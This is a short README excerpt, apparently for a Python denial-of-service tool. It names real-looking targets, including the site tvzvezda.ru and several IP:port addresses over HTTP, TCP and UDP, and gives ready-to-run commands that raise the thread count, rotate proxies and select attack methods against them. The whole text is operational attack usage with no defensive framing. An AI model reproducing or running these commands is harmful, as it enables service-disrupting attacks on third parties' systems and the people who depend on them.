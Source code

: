 Target specification

- HTTP(S) by URL - `https://tvzvezda.ru` or `http://tvzvezda.ru`
- HTTP by IP:PORT - `5.188.56.124:9000`
- TCP by IP:PORT - `tcp://194.54.14.131:4477`
- UDP by IP:PORT - `udp://217.175.155.100:53` - **REQUIRES VPN**

Increase load

    python3 runner.py -t 3000 https://tvzvezda.ru

View DEBUG info (traffic)

    python3 runner.py https://tvzvezda.ru --debug

Change proxy update interval

    python3 runner.py -p 900 https://tvzvezda.ru

Specific HTTP(S) attack method(s)

    python3 runner.py https://tvzvezda.ru --http-methods CFB CFBUAM

## TODO
- [ ] Skip HTTP(S) proxies download for pure TCP workloads

